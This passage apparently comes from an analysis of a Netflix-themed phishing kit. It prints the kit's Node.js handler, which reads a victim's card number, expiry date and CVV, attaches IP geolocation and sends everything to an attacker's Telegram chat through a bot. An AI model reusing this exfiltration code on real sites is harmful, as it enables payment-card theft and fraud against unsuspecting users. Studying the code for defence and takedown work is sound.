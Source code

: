 ```js
```

The user data is formatted nicely and decorated with pretty icons before it is sent as a message to a Telegram chat set up by the attacker. 

This route then redirects to `/auth/login/2` and the user is taken to the billing page where their credit card info will be captured:

```js
[...]

exports.loginPost2 = async (req, res) => {
	const { cardNum, expDate, cvv } = req.body;
	const clientIP = getClientIp(req);

	function getIPDetails() {
		return ipInfo
			.getIPInfo(clientIP)
			.then((data) => {
				var data = data;
				return data;
			})
			.catch((err) => {
				console.log(err);
			});
	}

	const iPDetails = await getIPDetails();
	const { ipAddress, Time } = iPDetails;

	const message =
		`👾 SHAKESWORDE | NETFL1X | USER_${ipAddress}\n\n` +
		`👤 BILLING INFO\n` +
		`CARD NUMBER      : ${cardNum}\n` +
		`EXPIRY DATE      : ${expDate}\n` +
		`CVV              : ${cvv}\n\n` +
		`🌍 GEO-IP INFO\n` +
		`IP ADDRESS       : ${ipAddress}\n` +
		`TIME             : ${Time}\n\n` +
		`💬 Telegram: https://t.me/UpdateTeams\n` +
		`🌐 Website: Coming soon!!\n`;

	const sendMessage = sendMessageFor(botToken, chatId);
	sendMessage(message);

	res.redirect('/auth/login/3');
};

exports.login3 = (req, res) => {
	res.render('login3');
};

[...]

```
That is about the end of the story, after the attacker gets these messages, they win. 
